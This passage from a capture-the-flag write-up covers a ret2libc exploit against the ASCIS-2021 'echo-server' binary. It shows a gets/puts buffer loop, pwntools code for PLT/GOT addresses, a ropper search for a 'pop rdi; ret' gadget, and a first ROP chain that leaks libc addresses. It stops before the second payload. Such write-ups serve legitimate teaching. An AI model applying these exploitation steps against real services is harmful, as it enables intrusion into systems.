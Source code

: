 ## Finding the shared library of the remote machine using function addresses
Shared library functions are loaded into the memory at an offset to a base position (this is called relative address) but the distance between 2 functions in the memory remains unchanged, so we can use the addresses of any 2 functions to find the correct libc version.

This site performs looking up libc version based on function addresses: https://libc.blukat.me

## Building the 1st ropchain (to leak addresses)
We will use `puts` and `gets` since the `main` function calls these 2 functions:
```c
do {
            gets(local_88);
            puts(local_88);
            pcVar1 = strstr(local_88,"QUIT");
    } while (pcVar1 == (char *)0x0);
```

We need to find the address of `puts.plt`, `puts.got` and `gets.got`. Pwntools provides a great module for this:
```python
puts_plt = p64(elf.plt['puts'])
puts_got = p64(elf.got['puts'])
gets_got = p64(elf.got['gets'])
# p64 is for packing the integers into little endian format
```
- `puts_plt`: For short, to call function `puts`
- `puts_got`: Address of function `puts` in libc
- `gets_got`: Address of function `gets` in libc

Basically, what we're trying to do is to get `puts` to print out the addresses of `puts` and `gets` in the shared library.

Since 64-bit binaries use registers to store parameters for function calls, we will also need a `[pop rdi, ret]` gadget to pop the given addresses into RDI and return to our `puts` call. We can use **Ropper**:
```bash
┌──(revirven㉿kali)-[~/Desktop/CTF/ASCIS-2021/echo-server]
└─$ ropper -f echoserver_2aa0a5dae5b5c2954ea6917acd01f49b --search "pop rdi"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: echoserver_2aa0a5dae5b5c2954ea6917acd01f49b
0x00000000004012cb: pop rdi; ret;
```

Or the **ROP** module of pwntools:
```python
pop_rdi = p64((rop.find_gadget(['pop rdi', 'ret']))[0])
```
Lastly, we will need to jump back to `main` function to inject our 2nd payload which will be specified later.
```python
main = p64(0x004011ae) # The address of main function shown in Ghidra
```

